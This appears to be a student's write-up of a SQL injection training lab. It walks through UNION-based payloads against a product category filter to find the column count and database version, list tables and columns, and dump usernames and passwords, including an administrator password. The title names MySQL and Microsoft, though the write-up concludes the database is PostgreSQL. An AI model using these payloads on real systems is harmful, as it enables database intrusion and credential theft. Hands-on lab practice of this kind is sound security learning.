

# Lab 04 – SQLi: Querying DB type & version (MySQL & Microsoft)

Goal:
figure out the database type/version when the backend is MySQL or Microsoft SQL.

What I did: 
- first i tested if its vulnerable to SQL injection by just typing ' in category
- intercepted the request that sets the product category filter in Burp & sent it to repeater 
- determine the number of columns using order by clause, confirmed it was returning 2 columns

here’s the screenshot showing the number of columns test worked:

- find the data type for the columns by using: UNIION SELECT NULL, NULL --
  i tested UNION SELECT 'a', 'b' -- and it gave 200 OK = both colums accept type string
  
- figure out the database version since we dont know the database software we are gonna depend on which one gives us 200 OK
1- ' UNION SELECT @@version, NULL -- 500 internel server error -> not microsoft
2- ' UNION SELECT version(), NULL -- 200 OK -> so now we know its PostgreSQL (PostgreSQL 12.22 (Ubuntu 12.22-0ubuntu0.20.04.4))
  
- output the table names in the database
' UNION SELECT table_name, NULL FROM information_schema.tables --

users_dbqlkm

- output the column names of the table 
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_dbqlkm' --

username_qbetwu
password_vbkewi

- output the usernames and passwords
' UNION SELECT username_qbetwu, password_vbkewi FROM users_dbqlkm--

- now we can see administrator and password: o00ap5pgao7vp0cq3ku1 and thats it !

Notes:
this one felt smoother because I understood the UNION flow better after Lab 03.
